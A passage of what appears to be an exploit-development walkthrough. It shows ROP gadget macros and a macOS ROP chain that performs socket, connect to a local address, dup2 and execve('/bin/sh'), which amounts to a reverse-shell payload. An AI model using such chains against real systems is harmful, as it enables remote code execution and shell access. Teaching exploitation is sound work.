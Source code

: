```
#define LOAD_RDI(n) \
    KERNEL_GADGET(0x0000000000000b25), n, 0 // pop rdi ; pop rbp ; ret

#define LOAD_RDX(n) \
    KERNEL_GADGET(0x0000000000014762), n // pop rdx ; ret

#define SYSCALL(n) \
    LOAD_RAX(n), \
    KERNEL_GADGET(0x0000000000011404) // syscall ; ret
```

That way, the end result is something that's no less readable than your original assembly:

```
// socket(AF_INET, SOCK_STREAM, 0)
LOAD_RDI(2),
LOAD_RSI(1),
LOAD_RDX(0),
SYSCALL(0x2000061),

// connect(s, &address, 16)
GET_POINTER(0x0100007fb80b0200, 0, 0, 0, 0),
MOVE_RAX_TO_RDI(),
LOAD_RDX(16),
SYSCALL(0x2000062),

// dup2(s, 0)
LOAD_RSI(0),
SYSCALL(0x200005a),

// dup2(s, 1)
LOAD_RSI(1),
SYSCALL(0x200005a),

// dup2(s, 2)
LOAD_RSI(2),
SYSCALL(0x200005a),

// execve("/bin/sh", 0, 0)
GET_POINTER(0x0068732f6e69622f, 0, 0, 0, 0),
MOVE_RSI_TO_RDI(),
LOAD_RSI(0),
LOAD_RDX(0),
SYSCALL(0x200003b),
```

You can find my ROP code for OSX [here](https://github.com/techbloglol/rce-exploit-walkthrough/blob/master/osx-solution/rop.cpp). As you can see, if you plug in a library address, you can easily run and step through your chain in the debugger.

The pwning
----------
